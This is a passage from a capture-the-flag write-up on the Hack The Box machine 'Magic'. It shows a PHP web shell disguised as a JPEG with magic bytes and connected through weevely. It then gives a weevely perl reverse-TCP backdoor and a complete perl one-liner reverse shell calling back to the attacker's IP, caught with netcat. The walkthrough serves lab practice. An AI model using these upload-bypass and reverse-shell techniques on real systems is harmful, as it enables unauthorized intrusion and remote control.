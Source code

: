 ```bash
```
I then edit this shell to have the .jpeg extension and add the JPEG header to the front of it: `FF D8 FF E0 00 10 4A 46 49 46 00 01`  
Then I connect to the shell.
```bash
kali@kali:~/Desktop/htb/magic$ weevely http://10.10.10.185/images/uploads/pepeshell.php.jpeg jack

[+] weevely 4.0.1

[+] Target:     10.10.10.185
[+] Session:    /home/kali/.weevely/sessions/10.10.10.185/pepeshell.php_1.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> whoami
www-data
www-data@ubuntu:/var/www/Magic/images/uploads $
```
This shell appears to persist, however, for some reason it does die after 5 mins each time. Therefore I will keep trying to get something more persistant before diving into enumeration.
```bash
www-data@ubuntu:/var/www/Magic $ :backdoor_reversetcp
error: the following arguments are required: lhost, port
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}]
                           lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
www-data@ubuntu:/var/www/Magic $ which python
www-data@ubuntu:/var/www/Magic $ which nc
www-data@ubuntu:/var/www/Magic $ which perl
/usr/bin/perl
www-data@ubuntu:/var/www/Magic $ :backdoor_reversetcp -shell /bin/bash -vector perl 10.10.15.116 9999
Reverse shell connected, insert commands. Append semi-colon help to get the commands accepted.
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic$
```
This reverse shell is totally persistant but is still a bit glitchy, so from here I spawn another perl reverse shell (and close the old ones after).
```bash
www-data@ubuntu:/home$ perl -e 'use Socket;$i="10.10.15.116";$p=9998;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Catch the new shell in netcat:
```bash
kali@kali:~$ nc -lvp 9998
Listening on 0.0.0.0 9998
Connection received on 10.10.10.185 42452
/bin/sh: 0: can't access tty; job control turned off
$ whoami
```